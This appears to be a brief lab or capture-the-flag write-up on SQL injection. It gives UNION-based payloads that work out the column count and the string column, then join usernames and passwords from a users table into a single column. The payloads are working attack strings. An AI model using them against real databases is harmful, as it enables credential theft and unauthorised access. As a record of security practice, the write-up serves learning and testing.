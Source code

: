 # Multiple values in single column

we can retrieve multiple values together within this single column by concatenating their values

query

```sql
' union select username || '~' || password from users--
```

here || indicates the concatenation operator on Orcale and ~ indicates seperated by

end goal : Multiple value in single column

running query directly gave us internal error

let's try to figure  out the columns

```sql
' order by 1--
' order by 2--
```

 here we have two columns lets check if it conatins string or not

```sql
' union select 'a',NULL from users-- //this query return error so it doesn't have string

' union select NULL, 'a' from users-- //gave us output
```

After this analysis our payload should be

payload

```sql
' union select NULL, username ||'~'|| password from users--
```

Got all the desired output

